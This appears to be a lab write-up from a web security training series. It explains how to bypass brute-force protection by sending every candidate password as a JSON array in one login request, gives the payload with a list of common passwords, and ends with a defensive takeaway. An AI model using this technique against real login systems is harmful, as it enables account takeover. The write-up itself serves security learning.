





# Lab 13 — Broken brute-force protection, multiple credentials per request

> [← Back to Authentication](../README.md)

---

## 🎯 Objective
The login endpoint accepts JSON arrays — send all passwords at once in a single request to bypass brute-force rate limiting.

---

## 🪜 Steps

### Step 1 — Intercept the login request
Intercept `POST /login` → send to **Intruder** / **Repeater**.




---

### Step 2 — Modify the request body
Change the JSON `password` field from a string to an **array** containing all passwords at once:

```json
{
  "username": "carlos",
  "password": [
    "123456",
    "password",
    "12345678",
    "qwerty",
    "abc123",
    "letmein",
    "football",
    "iloveyou",
    "admin",
    "welcome"
    ... (full password list)
  ]
}
```

Send the request → **302 redirect** ✅



---

### Step 3 — Access the account
Right-click the 302 response → **Show response in browser** → open the URL.

Logged in as Carlos!




---

## ✅ Result
Lab solved in a **single request**!

---

## 💡 Key Takeaway
Rate limiting must be enforced per-password attempt, not per-request. If the backend processes JSON arrays, each element must count as a separate attempt.
